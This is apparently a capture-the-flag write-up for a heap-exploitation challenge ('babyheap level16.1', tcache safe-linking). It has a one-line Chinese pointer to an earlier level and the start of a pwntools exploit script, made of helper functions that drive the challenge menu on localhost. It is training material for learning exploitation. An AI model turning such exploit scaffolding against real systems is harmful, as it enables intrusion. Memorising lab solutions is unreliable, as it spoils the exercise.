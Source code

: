 ## Information

- Category: Pwn

## Description

> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up

参见 [Level 16.0](#level-160)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level16.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode())


```